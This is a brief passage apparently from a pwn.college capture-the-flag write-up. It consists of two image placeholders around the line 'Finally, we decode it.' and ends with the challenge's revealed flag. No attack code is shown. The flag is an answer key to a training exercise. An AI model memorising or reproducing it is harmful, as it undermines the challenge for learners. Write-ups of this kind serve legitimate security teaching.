

Finally, we decode it.



Flag: `pwn.college{0K-bLHVWpV-3sxCbRQvaxGQdTCw.QXwADNzwyMyITOyEzW}`
